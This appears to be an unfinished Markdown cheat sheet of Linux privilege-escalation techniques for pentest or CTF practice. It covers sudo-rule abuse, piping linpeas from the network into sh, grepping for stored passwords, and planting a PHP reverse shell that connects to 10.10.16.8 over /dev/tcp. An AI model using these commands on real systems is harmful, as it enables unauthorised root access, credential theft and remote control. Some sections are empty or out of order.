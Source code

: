 ```yaml
---
sort : 7
---
```



# Privilege Escalation

A type of network attack used to gain unauthorized access to systems within a security perimeter.

## Got A Shell ?? 

All we need to do is to become a root.

`Here are the most important attack vectors to perform :`

### 1. Knowing the compromised users permissions
```bash
$ whoami  

$ id 
```

### 1.1 Kernel Exploits

```bash 
$ uname -a
# OR
$ cat /proc/version
# OR 
$ cat /etc/issue  

```

```warning
Don't use kernel exploits if you can avoid it. If you use it it might crash the machine or put it in an unstable state. 

Always use a simpler priv-esc if you can. They can also produce a lot of stuff in the sys.log. So if you find anything good, put it up on your list and keep searching for other ways before exploiting it.
```

### 1.2 Sudo -l 


```bash
$ sudo -l 

User [Username] may run the following commands on [Machine Name]:
    (root) NOPASSWD: /home/user/personal/stuff/AnyScript.sh

# How to read this ?? 
# the current user `Username` can run the command `/home/Username/personal/stuff/AnyScript.sh` as a `root` without password

$ sudo -u root /home/user/personal/stuff/AnyScript.sh


=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


User [Username] may run the following commands on [Machine Name]:
    (Username2) NOPASSWD: /home/Username2/luvit
    
# the current user `Username` can run the command `/home/Username2/luvit` as a `Username2` without password


$ sudo -u Username2 /home/Username2/luvit privesc.lua    # some times the command needs args to work ^^ 


=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


User [Username] may run the following commands on [Machine Name]:
    (Username2 : Username2) NOPASSWD: ALL

# the current user `Username` can run `ANY` command as a `Username2` OR it's group without password


$ sudo -u Username2 /bin/bash

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

User [Username] may run the following commands on [Machine Name]:
    (ALL) NOPASSWD:/bin/nano /opt/priv


# the current user `Username` can run `/bin/nano /opt/priv` command as `ANY USER` without password

sudo -u Username /bin/nano /opt/priv   # not root ?? 
```



### 2. Privilege Escalation Scripts

```bash 
# On Victime Machine 
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

some of what the script do is finding : 

1. User Installed Software : <br>
If you find anything google it for exploits.

```bash
# Common locations for user installed software
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/

# Debian
$ dpkg -l

# CentOS, OpenSuse, Fedora, RHEL
rpm -qa (CentOS / openSUSE )

# OpenBSD, FreeBSD
pkg_info
```







### 2.5 Misconfiguration 





### 2.7 Passwords Mining 
```note
Logs / memory / History / Configuration files !! 
```

search deeper in /var/www/

```note
if i found multiple folders inside it ?? ==> this could indecte that the server is running multiple web apps !!! 
```

`inside /var` 
```bash
$ grep -roP 'passw.{0,30}' 2>/dev/null

$ grep -rP 'passw.{0,10}' -B5 -A5 --exclude '*.min.js' 2>/dev/null
$ grep -rP 'passw.{0,10}' -B5 -A5 --exclude '*.js' 2>/dev/null

# TRY : 
$ grep -rP 'Web.{0,10}' -B5 -A5 2>/dev/null | awk 'length >= 1 && length <= 2000' | grep --color -P "Web|"
```

```note	
grep will filter the files in each (non linked) folder recursivly. 
```





### 3. An Expedition Into System Files  

most of the time we gain a `broken shell` as www-data user .. SO .. try to write a php reverse shell file in any writeable folder inside `/var/www/` to get a better shell.
    
```note
`/var/www` is not the only place, it's just where the web server make it's actions.
```

```bash
$ find . -writable -type d
$ echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.8/1234 0>&1'\");" > shell.php  		# escape the double quotes inside a double qoutes ^^ to bypass the overlapping
```


### 1. Credential Exploitation